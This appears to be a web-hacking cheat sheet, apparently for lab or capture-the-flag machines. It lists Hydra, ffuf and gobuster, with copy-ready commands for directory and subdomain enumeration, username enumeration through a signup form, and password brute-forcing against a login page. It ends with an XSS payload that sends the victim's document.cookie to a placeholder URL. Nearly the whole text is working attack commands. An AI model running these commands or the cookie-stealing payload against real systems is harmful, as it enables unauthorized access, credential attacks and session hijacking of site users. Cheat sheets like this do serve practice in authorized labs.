 # WEB 

## TOOLS
- **[Hydra](https://www.kali.org/tools/hydra/)** : Logon cracker for many services
- **[ffuf](https://www.kali.org/tools/ffuf/)** : Web Fuzzer
- **[gobuster](https://www.kali.org/tools/gobuster/)** : Web Brute-force tools

## COMMANDS
**Discovery files/folders**
`gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt`

**Enumerate on subdomains**
`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.DOMAIN" -u http://MACHINE_IP`

**Enumerate on users**
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/signup -mr "username already exists"`

**Bruteforce users**
`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`

**XSS Cookie Grabber**
`<script> document.write('<IMG SRC=URL?cookie='+document.cookie+'/>')</script>`